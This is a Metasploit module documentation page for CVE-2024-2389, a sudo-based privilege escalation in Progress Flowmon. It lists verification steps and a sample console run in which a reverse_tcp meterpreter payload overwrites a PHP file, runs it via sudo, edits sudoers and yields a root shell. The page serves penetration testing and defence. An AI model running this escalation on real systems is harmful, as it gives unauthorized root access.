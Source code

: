 ## Vulnerable Application
Progress Flowmon up to at least version 12.3.2 is vulnerable to local privilege escalation from the
`flowmon` user to `root`. This is possible due to the
flowmon user being able to run several commands with
`sudo`. This module exploits the ability to overwrite a
PHP file and execute it with `sudo` granting full `sudo`
permissions to the `flowmon` user and elevating the
shell to a root shell.

For more details on the vulnerability:
https://rhinosecuritylabs.com/research/cve-2024-2389-in-progress-flowmon/ (privesc methods)

https://support.kemptechnologies.com/hc/en-us/articles/24878235038733-CVE-2024-2389-Flowmon-critical-security-vulnerability

This application is avaiable in cloud marketplaces:
- https://portal.azure.com/#view/Microsoft_Azure_Marketplace/GalleryItemDetailsBladeNopdl/id/progresssoftwarecorporation.flowmon
- https://aws.amazon.com/marketplace/pp/prodview-6phnrhkekuzka
- https://console.cloud.google.com/marketplace/product/flowmon-public/flowmon-collector-for-google-cloud
## Verification Steps
1. Install the application
1. Start msfconsole
1. Gain a session on a Progress Kemp Loadmaster target as the `flowmon` user
1. Do: `use exploits/linux/local/pprogress_flowmon_sudo_privesc_2024`
1. Do: `set SESSION <session>`
1. Do: `set LHOST <your host IP>`
1. Do: `run`
1. You should get a shell as the `root` user.

## Scenarios

### Flowmon 12.2

```
msf exploit(linux/local/progress_flowmon_sudo_privesc_2024) > sessions -l

Active sessions
===============

  Id  Name  Type                   Information                                  Connection
  --  ----  ----                   -----------                                  ----------
  5         meterpreter x64/linux  flowmon @ localhost.localdomain.localdomain  192.168.2.23:4444 -> 192.168.2.26:38328 (192.168.2.26)

msf exploit(linux/local/progress_flowmon_sudo_privesc_2024) > show options

Module options (exploit/linux/local/progress_flowmon_sudo_privesc_2024):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   SESSION       -1               yes       The session to run this module on
   WRITABLE_DIR  /tmp             yes       A directory where we can write files


Payload options (linux/x64/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.2.23     yes       The listen address (an interface may be specified)
   LPORT  5555             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Automatic



View the full module info with the info, or info -d command.

msf exploit(linux/local/progress_flowmon_sudo_privesc) > run

[*] Started reverse TCP handler on 192.168.2.23:5555
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Found 2 indicators this is a Progress Flowmon product
[!] The service is running, but could not be validated.
[*] Saving payload as /tmp/.fovaiiazfuhl
[*] Overwriting /var/www/shtml/index.php with payload
[*] Executing sudo to elevate privileges
[*] Transmitting intermediate stager...(126 bytes)
[*] Sending stage (3045380 bytes) to 192.168.2.26
[+] Deleted /tmp/.fovaiiazfuhl
[*] Cleaning up addition to /etc/sudoers
[*] Meterpreter session 9 opened (192.168.2.23:5555 -> 192.168.2.26:33408) at 2024-05-23 16:46:10 -0400
[*] Restoring /var/www/shtml/index.php file contents...

meterpreter > getuid
Server username: root
meterpreter > sysinfo
Computer     : localhost.localdomain.localdomain
OS           : CentOS 7.9.2009 (Linux 3.10.0-1160.102.1.el7.flowmon.x86_64)
Architecture : x64
BuildTuple   : x86_64-linux-musl
Meterpreter  : x64/linux
meterpreter >
```
